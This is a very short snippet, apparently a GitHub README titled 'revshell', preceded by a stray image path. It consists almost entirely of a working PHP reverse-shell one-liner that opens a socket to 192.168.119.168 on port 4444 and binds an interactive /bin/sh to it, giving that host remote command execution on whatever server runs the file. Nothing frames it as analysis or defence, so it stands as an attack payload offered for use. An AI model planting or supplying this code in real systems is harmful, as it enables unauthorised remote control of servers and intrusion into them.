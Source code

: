 # revshell

### php revshell one-liner
```php
<?php $sock = fsockopen("192.168.119.168",4444); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```
---
